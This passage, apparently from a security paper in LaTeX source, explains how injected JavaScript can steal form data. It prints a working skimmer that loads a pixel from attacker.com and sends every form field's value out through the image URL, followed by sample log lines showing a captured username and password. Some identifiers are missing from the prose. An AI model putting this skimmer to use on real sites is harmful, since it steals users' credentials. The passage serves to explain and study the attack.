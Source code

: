 \begin{jscode}
// place hidden image on the page
var pixel = "<img src=\"http://www.attacker.com/pixel.png\"" +
            "id=\"pixel\" />";
document.write(pixel);

function stealFormData(type, value) {
  var payload = "url=" + document.domain + "&" + type + "=" + value;
  document.getElementById("pixel").src =
      "http://www.attacker.com/pixel.png?" + payload;
}

// add stealFormData to all forms on page
for (var i = 0; i < document.forms.length; i++) {
  for (var j = 0; j < document.forms[i].elements.length; j++) {
    var elem = document.forms[i].elements[j];
    elem.addEventListener("blur", // triggered when element loses focus
           function() { stealFormData(this.type, this.value) }, false);
  }
}
\end{jscode}

\autoref{list:fieldinfo} shows exploit code an attacker might use to steal credentials from the login form of a web page.
The attack script first loads an image () supplied by a server under the attacker's control.
The attacker designs the image to avoid perceptible changes in page layout.
Few users will notice the placement of a single transparent pixel, but the attacker can use the GET request as a channel to steal confidential page data whenever the image is reloaded from the server.

The attacker knows users will fill out the form and registers () a -event handler on all forms elements on the page.
When a form element loses focus it triggers a call to the -event handler.
The handler,  defined on , first encodes information about the page domain and contents of the form element which triggered the event in the  variable.
Then it updates the  attribute of the image with a URL containing the payload.
This update causes the browser to automatically reload the image, sending the sensitive information in the URL of the image request.

\begin{jscode}
[01/Jan/2014:21:34:10] "GET /pixel.png?url=www.bank.com&text=alice HTTP/1.1"
[01/Jan/2014:21:34:12] "GET /pixel.png?url=www.bank.com&password=bob69 HTTP/1.1"
\end{jscode}

